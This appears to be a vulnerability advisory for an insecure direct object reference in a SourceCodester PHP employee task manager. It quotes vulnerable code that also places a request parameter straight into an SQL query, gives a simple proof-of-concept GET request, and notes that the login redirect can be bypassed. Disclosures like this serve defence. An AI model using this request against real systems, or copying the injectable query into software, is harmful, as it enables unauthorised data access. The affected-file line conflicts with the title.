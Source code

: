 # SOURCECODESTER / Employee Task Management System - IDOR edit-task.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)

## Vendor Homepage:
> https://www.sourcecodester.com/php/17217/employee-management-system-php-and-mysql-free-download.html

## Affected Component
> /update-employee.php

## Code
```php
$task_id = $_GET['task_id'];



if(isset($_POST['update_task_info'])){
    $obj_admin->update_task_info($_POST,$task_id, $user_role);
}

$page_name="Edit Task";
include("include/sidebar.php");

$sql = "SELECT * FROM task_info WHERE task_id='$task_id' ";
$info = $obj_admin->manage_all_info($sql);
$row = $info->fetch(PDO::FETCH_ASSOC);
```

## Proof of Concept
**HTTP Request Example**
>task_id parameter is vulnerable to IDOR
>Note: Attacker can use idor without authentication in burp by not following the redirection
``` http request
GET /edit-task.php?task_id=21 HTTP/1.1
Host: 127.0.0.1
Research-By: NoChizPlz
```

## Screenshot



